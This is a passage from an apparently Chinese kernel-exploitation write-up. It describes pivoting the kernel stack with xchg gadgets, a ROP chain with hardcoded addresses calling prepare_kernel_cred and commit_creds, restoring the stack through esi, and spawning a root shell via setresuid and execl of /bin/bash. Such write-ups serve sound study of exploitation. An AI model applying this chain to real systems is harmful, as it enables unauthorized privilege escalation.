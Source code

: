 于是我第一次找的**xchg ecx,esp**这样的指令。但是一执行，系统就崩了。具体原因，本人猜测应该是内核栈esp不能指向用户空间。具体什么原因，也没深究。

所以第二次，我找的**xchg eax,esp；ret 0x100**这样的指令。因为eax是shmid_file，还在内核空间，而其后面的数据都可以通过write控制，也就相当于能控制栈。还不用改写shmid_file，只用在shmid_file头4个字节写上**pop eax;ret;**的地址，xchg之后的ret能顺利执行就OK了。

```
memcpy(buf+0x180,rop,4);
//rop[0] = 0xc1431272 ;
//pop eax 
//ret

```

0x06 内核态返回
==========

* * *

最后一个问题，内核态如何返回用户态。

因为我们移植了内核栈，而内核态返回用户态的时候，需要从内核栈里头，弹出cs,eip,eflag,ss,esp等信息。当然，我们可以自己构造虚假的。但是内核栈里头有很多结构体，特别是提取时候要用到的task结构体，就在内核栈开始的地方。我没有试过构造虚假的内核栈，因为感觉太繁琐，而且也不知道可不可行。

于是我采取的是另外一种思路：

**把移植过来的栈，又移植回去。**

所以，我需要一个寄存器，来保存被移植前的esp。而prepare_kernel_cred() 和 commit_creds()。会对esi,edi,ebx三个寄存器进行保护：

![Alt text](http://drops.javaweb.org/uploads/images/966d33619489567223e1e1abf4ad50b354f32216.jpg)

我选择其中的esi来保存原始内核栈esp。那么rop链就变成了这样子：

| instruction | addr |  |
| :-- | --- | --- |
| xchg eax,esp;ret | 0xc1020eb1 | 覆盖到shm_mmap的指针 |
| xchg eax,esi;ret | 0xc1071395 | 覆盖shm_file的前四个字节 |
| pop eax;ret; | 0xc1431272 | fack_stask |
|  |  | fack_stask |
| perpare_kernel_creds; | 0xc1082e20 | fack_stask |
| commit_cred; | 0xc1082b60 | fack_stask |
| xchg eax,esi;ret | 0xc1071395 | fack_stask |
| xchg eax,esp;ret | 0xc1020eb1 | fack_stask |

0x07 get root shell
===================

* * *

最后，我们再用户态，调用：

```
setresuid(0, 0, 0);
setresgid(0, 0, 0);
execl("/bin/bash","/bin/bash",NULL);

```
